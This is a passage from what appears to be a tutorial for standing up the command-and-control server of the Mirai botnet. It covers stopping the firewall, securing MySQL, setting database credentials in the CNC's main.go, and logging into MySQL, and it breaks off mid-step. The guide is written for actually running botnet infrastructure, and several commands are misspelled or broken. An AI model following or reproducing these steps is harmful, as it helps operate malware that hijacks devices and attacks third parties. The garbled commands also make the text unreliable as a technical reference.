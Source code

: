 Now we going to setup the database permissions and users.
If you have iptbales/ip6tables or any firewall install disable it.



code:

service iptables stop
/etc/ini.d/iptbales stop
 

-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------

[Step7] - Database setup

code:

/usr/bin/mysql_secure_installation


-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
**
It will ask you to set a password, make sure you remember this.


--------------------------------------------------------------------------------------------

[Step7] - Database setup
Edit your ( main.go ) file located in ../mirai/cnc/

and edit this string in main.go use Winscp if you don't know how to use (vi), and change the info to your info,

THIS EXEMPLE IS IF YOUR MySQL PASSWORD IS:
MySQL_Password


exemple:

const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"

-------------------------NO MORE MODIFICATIONS -------------------STOP HERE AND READ----------------

[Step8] - Database create users and permissions.

Once you've done the step above were going to add the database and user perms. follow this link.



code:
mysql -rroot -pMySQL_Password


-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
[Step8] - Database create users and permissions.

Create the database first,


code:
